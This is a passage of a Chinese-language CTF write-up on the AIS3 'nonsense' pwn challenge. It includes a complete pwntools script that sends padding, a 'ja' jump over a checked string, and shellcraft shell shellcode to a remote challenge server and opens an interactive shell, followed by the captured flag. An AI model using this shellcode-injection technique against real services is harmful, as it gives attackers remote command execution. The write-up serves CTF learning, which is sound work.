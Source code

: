 由於構造 shellcode 很難預料有哪些數值，有沒有辦法先通過檢測之後略過該字串跳到 shellcode 上呢？

發現 wu 的  w 為 ja 所以直接用機械碼在字串開頭選定 offset 之後跳到 Shellcode 上並且執行，前面字元 `1` 僅僅用來填充第一個 `read()`，不過也許該地址也有其他利用方法。

``` python
#!/usr/bin/env python
from pwn import *
import pwnlib.elf
import pwnlib.shellcraft

c = remote('60.250.197.227', 10001)
#c = process('./nonsense-8ccbca2ca7f8825c843596a09c0806275a5b3fdf1c6c570bc0276fb0afc9210c')
e = ELF('./nonsense-8ccbca2ca7f8825c843596a09c0806275a5b3fdf1c6c570bc0276fb0afc9210c')

context.terminal = ['alacritty', '-e', 'sh', '-c']
#gdb.attach(c)

#init
context.os='linux'
context.arch='amd64'
# context.log_level ='debug'

shell = shellcraft.sh()
print(asm(shell))
print(disasm(b"\x77\x20"))

ans = b'1' * 15 + b'\n'
ans += b"\x77\x20"
ans += b"wubbalubbadubdub"
ans += b'1' * 16
ans += asm(shell) # put shellcode to message

c.sendline(ans)

c.interactive()
c.close()
```

之後他讀到之前的 ja 掠過 wubbalubbadubdub 之後 jmp 到 shellcode

``` plaintext
AIS3{Y0U_5peAk_$helL_codE_7hat_iS_CARzy!!!}
```

#### 參考

http://faydoc.tripod.com/cpu/jb.htm

### Portal gun

``` plaintext
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```
